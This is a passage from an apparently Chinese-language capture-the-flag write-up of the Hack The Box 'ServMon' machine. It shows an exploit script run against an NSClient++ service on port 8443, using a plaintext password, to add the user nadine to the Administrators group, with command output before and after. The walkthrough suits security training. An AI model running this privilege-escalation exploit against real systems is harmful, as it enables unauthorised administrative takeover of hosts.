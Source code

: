 ```
Password changeable          14/01/2020 20:36:20                                                                                                                                                               
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   08/12/2021 14:55:43                                                                                                                                                               

Logon hours allowed          All

Local Group Memberships      *Users
Global Group memberships     *None
The command completed successfully.
```

执行提权，把nadine加到Administrators组
```
┌──(root💀kali)-[~/htb/ServMon]
└─# python3 exp.py -t 127.0.0.1 -P 8443 -p 'ew2x6SsGTxjRwXOT' -c 'cmd.exe /c net localgroup Administrators /add nadine'                                                                                       1 ⨯
[!] Targeting base URL https://127.0.0.1:8443
[!] Obtaining Authentication Token . . .
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Enabling External Scripts Module . . .
[!] Configuring Script with Specified Payload . . .
[+] Added External Script (name: LnEZSwPpcJ)
[!] Saving Configuration . . .
[!] Reloading Application . . .
[!] Waiting for Application to reload . . .
[!] Obtaining Authentication Token . . .
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Triggering payload, should execute shortly . . .
```

再次查看，已加到管理员组
```
nadine@SERVMON c:\Temp>net user nadine
User name                    Nadine
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            14/01/2020 20:36:20                                                                                                                                                               
Password expires             Never
Password changeable          14/01/2020 20:36:20                                                                                                                                                               
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
```